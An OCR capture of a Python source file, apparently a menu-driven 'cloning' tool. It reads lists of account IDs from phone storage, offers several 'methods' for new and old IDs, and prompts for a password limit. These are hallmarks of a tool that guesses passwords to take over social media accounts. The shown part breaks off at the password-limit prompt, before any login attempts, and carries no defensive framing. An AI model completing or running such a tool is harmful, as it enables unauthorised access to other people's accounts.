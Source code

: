         #       chk()

                x = ("sex")

                if x == ("sex"):

                        today = date.today()
                        print(" >> Today's date :",today)
                        linex()
                        print(' [1] File cloning\n [×] Public cloning \n [3] Contact Admin\n [4] Check Results  \n [0] Exit menu')

                        linex()

                        xd=input(' [•] Choose an option: ')

                        if xd in ['1','01']:

                                clear()

                                print(' [•] Put file path without /sdcard ')

                                linex()

                                file1 = input(' Put file path : ')
                                file =("/sdcard/"+file1)

                                try:

                                        fo = open(file,'r').read().splitlines()

                                except FileNotFoundError:
                                
                                        print('\033[1;37m----------------------------------------------')
                                        animation(' >> File location not found ')

                                        time.sleep(1)

                                        menu()

                                clear()

                                print(' All method working try 1 by 1 ')

                                linex()

                                print(' [1] Method 1 (for new ids) \n [2] Method 2 (for mix ids)\n [3] Method 3 (for old ids)')

                                linex()

                                mthd=input(' [•] Choose : ')

                                linex()

                                plist = []

                                try:

                                        ps_limit = int(input(' [•] Password Limit : '))

                                except:
